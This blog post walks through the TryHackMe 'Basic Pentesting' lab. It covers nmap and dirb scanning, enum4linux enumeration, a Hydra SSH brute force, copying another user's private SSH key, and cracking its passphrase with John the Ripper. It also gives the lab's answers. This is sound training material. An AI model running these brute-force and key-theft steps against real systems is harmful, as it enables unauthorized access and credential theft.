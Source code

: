 ```yaml
---
layout: single
title: "TryHackMe Basic Pentesting"
categories: TryHackMe
tag: [TryHackMe, Basic Pentesting]
toc: true
toc_sticky: true
toc_label: 목차
author_profile: false
---
```


##  <img src="C:\Users\hjopy\OneDrive\바탕 화면\Jake\blog\blog\crackernote.github.io\assets\images\그림1.png" alt="그림1" style="zoom:6%;" /> TryHackMe  Basic Pentesting

#### 📜 Basic Pentesting

"Basic Pentesting" is a beginner level pentesting room in TryHackMe.

Let's dive in the room.



#### 📜 Task 1. Find the services exposed by the machine 

I used **Nmap** tool to find the services running on the target system.

```python
Nmap -sC -sV [Target_Machine_IP]
```

![image-20230711214849918](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230711214849918.png)

​                                                           Screenshot 1 (nmap results)

We can see the services are : 

- SSH (Port 22)
- HTTP (Port 80)
- SAMBA (Port 139 & 445)
- HTTP-Proxy (Port 8080)



#### 📜 Task 2. What is the name of the hidden directory on the web server(enter name without /)? 

I used **dirb** tool to find hidden directories on the web server.

```python
dirb http://[Tartget_IP] /usr/share/wordlists/dirb/common.txt
```

![image-20230712085405301](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230712085405301.png)

​                                                           Screenshot 2 (dirb results)

We can see the hidden directory :  **/development**

Now navigate around the website and development directory on the website.

![image-20230712090011680](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230712090011680.png)

​                                                             Screenshot 3 ("/development" directory)



Now let’s open each texts. We may find something interesting here

![image-20230712103713564](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230712103713564.png)

​                                                                          Screenshot 4 (dev.txt)



![image-20230712103729467](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230712103729467.png)

​                                                                           Screenshot 5 (j.txt)



#### 📜 Task 3. **User brute-forcing to find the username & password**

Here we need to find the username and password. But first we need to determine the users present on our target system.

So we know that samba is running on our target (from Nmap results & text files on the websites)
We can use **enum4linux** tool to enumerate the machine. Syntax for tool is as follows :

```python
enum4linux -e [Target_Machine_IP]
```



![image-20230725101342685](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725101342685.png)

​                                                              Screenshot 6 (enum4linux results)

Now we can find the users **"kay"** and **"jan"**

From the texts in development folder we analysed that J (or Jan) is having a weak password so it will be easier to brute-force that using our best friend **Hydra.**

So the syntax for hydra for cracking Jan’s password will be :

```python
hydra -l jan -P
/usr/share/wordlists/rockyou.txt ssh://[TARGET_MACHINE_IP]
```

![image-20230725103422716](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725103422716.png)

​                                                              Screenshot 7 (hydra results)



#### 📜 Task 4. ** What is the username?**

*Answer* : **jan** (from Screenshot 7)



#### 📜 Task 5. ** What is the password?**

*Answer* : **armando** (from Screenshot 7)



#### 📜 Task 6. **What service do you use to access the server(answer in abbreviation in all caps)?** 

*Answer* : **ssh** 

```
ssh jan@[TARGET_MACHINE_IP]
```



#### 📜 Task 7. ****Enumerate the machine to find any vectors for privilege escalation.**** 

We can login with "jan" but  we don't have permission pass.bak file

![image-20230725104228803](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725104228803.png)

​                                                              Screenshot 8 (Permission denided)



So we should escalate privilege to get loot level but we don't have the password for user kay. 

However, we can use ssh key of kay and then finding the passphrase to access the machine as kay.



**First,** Get the id_rsa key from kay’s directory and save it in our system.

```python
cd /home/kay
cd .ssh
cat id_rsa
```

![image-20230725201431731](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725201431731.png)

​                                                              Screenshot 9 (id_rsa)

Copy this key and save it in our system by name "id_rsa.txt"



**Second,** Cracking the key for passphrase with **"John The Ripper"**

```
python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt
```

This will convert our Private SSH key into john form so that it can be cracked further

```
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt
```

This will give us our phrase : **beeswax**



**Third,** Accessing as kay

Go to jan’s shell and write this command (because if we try to do this outside the ssh of jan or on our system shell it will not allow that)

```
ssh -i /home/kay/.ssh/id_rsa kay@[TARGET_MACHINE_IP]
```

![image-20230725203252755](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725203252755.png)

​                                                              Screenshot 10 (Login with kay)

And finally we can see **"pass.bak"** file

![image-20230725203505982](C:\Users\kakaopaysec\AppData\Roaming\Typora\typora-user-images\image-20230725203505982.png)

​                                                              Screenshot 11 (pass.bak)
